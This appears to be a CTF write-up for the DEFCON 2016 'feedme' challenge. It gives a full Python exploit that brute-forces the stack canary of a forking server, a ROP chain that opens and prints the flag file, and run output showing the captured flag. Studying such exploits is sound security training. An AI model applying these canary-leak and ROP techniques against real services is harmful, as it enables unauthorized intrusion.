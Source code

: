 #feedme - DEFCON 2016

First of all execute `file` command on the binary
```bash
$ file feedme
feedme: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, stripped
```

and with `checksec` we see that NX is enabled and debugging a little bit we realize that the usage of the binary is simple: a "parent" process launches child processes that takes 1 byte `x`, then reads `x` number of bytes. But the length of the buffer is 32, so if we send "\x36" + "A"*0x36 the canary is overwritten and smash the stack detected.

So we have to leak the canary in order to overwrite the return address. The bug was that child's canary is always the same, so we can try to send 0x32 bytes of garbage and bruteforce the 33th byte (easy, always `\x00`), then the 34th, then the 35th and 36th one.

This part of the exploit is

```python
#!/usr/bin/env python2

import sys, socket, telnetlib
from struct import *
import random
import time
import binascii
import time
def recvuntil(t):
    data = ''
    while not data.endswith(t):
        tmp = s.recv(1)
        if not tmp: break
        data += tmp

    return data

def interactive():
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()

def p32(x): return pack('<I', x)
def u32(x): return unpack('<I', x)[0]
def p64(x): return pack('<Q', x)
def u64(x): return unpack('<Q', x)[0]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1], int(sys.argv[2])))
recvuntil("FEED ME!\n")
canary = "\x00"
while len(canary)!=4:
	for brute in range(0,255):
		#print brute
		init = binascii.unhexlify(hex(32+len(canary)+1)[2:])
		garbage = "A"*32

		if len(hex(brute)[2:])==1:
			pad = "0"
		else:
			pad = ""
		tryLeakByteCanary = binascii.unhexlify(pad + hex(brute)[2:])
		s.send(init + garbage + canary+ tryLeakByteCanary)
		data = recvuntil("FEED ME!\n")
		if "YUM" in data:
			print "LEAKED: "  + str(tryLeakByteCanary)
			print data
			canary += tryLeakByteCanary
			break
```

and then we write a ROPchain that reads `flag` string, open `flag` file and write its content to std output (we spent a lot of time trying to execve /bin/sh, we wrote custumized ROPchain also. Only after some hours we decided to follow this way. After solving the challenge we read on IRC "pwnables have busybox -> /bin/sh. Your execve shell code is probably broken" -> **** off!).

```python
p = ''
p += p32(0x080bb496) #pop eax
p += p32(0x3)#read sys
p += p32(0x0806f370)  #pop edx pop ecx pop ebx
p += p32(0x5)#flag\x00
p += p32(0x080eaf80)#BSS address
p += p32(0x0)
p += p32(0x0806FA20) #int 80; ret


p += p32(0x080bb496) #pop eax
p += p32(0x5) #fopen
p += p32(0x0806f370)  #pop edx pop ecx pop ebx
p += p32(0x0)
p += p32(0x0)
p += p32(0x080eaf80) #address of flag string
p += p32(0x0806FA20) #int 80; ret

p += p32(0x080bb496) #pop eax
p += p32(0x3) #read sys
p += p32(0x0806f370)  #pop edx pop ecx pop ebx
p += p32(0x100) #length
p += p32(0x080ea060) #.data address
p += p32(0x2) #FD
p += p32(0x0806FA20) #int 80; ret

p += p32(0x080bb496) #pop eax
p += p32(0x4) #write sys
p += p32(0x0806f370)  #pop edx pop ecx pop ebx
p += p32(0x100) #length
p += p32(0x080ea060)#address
p += p32(0x01) #FD
p += p32(0x0806FA20) #int 80; ret
```

PWN THEM!!

```python
init = binascii.unhexlify(hex(len(garbage + canary + "A"*12 + p))[2:])
s.send(init + garbage + canary + "A"*12  + p)
print recvuntil("...\n")
print "interactive "
s.send("flag\x00")
interactive()
```

```bash
$ python exploit.py feedme_47aa9b0d8ad186754acd4bece3d6a177.quals.shallweplayaga.me 4092
LEAKED: R
ATE 41414141414141414141414141414141...
YUM, got 34 bytes!
Child exit.
FEED ME!

LEAKED:
ATE 41414141414141414141414141414141...
YUM, got 35 bytes!
Child exit.
FEED ME!

LEAKED: �
ATE 41414141414141414141414141414141...
YUM, got 36 bytes!
Child exit.
FEED ME!

CHECK len(canary): 4
�anary: R
PWN THEM!!

ATE 41414141414141414141414141414141...

interactive
The flag is: It's too bad! we c0uldn't??! d0 the R0P CHAIN BLIND TOO
��������@�
         Child exit.
FEED ME!
```

The full exploit is available here the full exploit is available [here](exploit.py)!
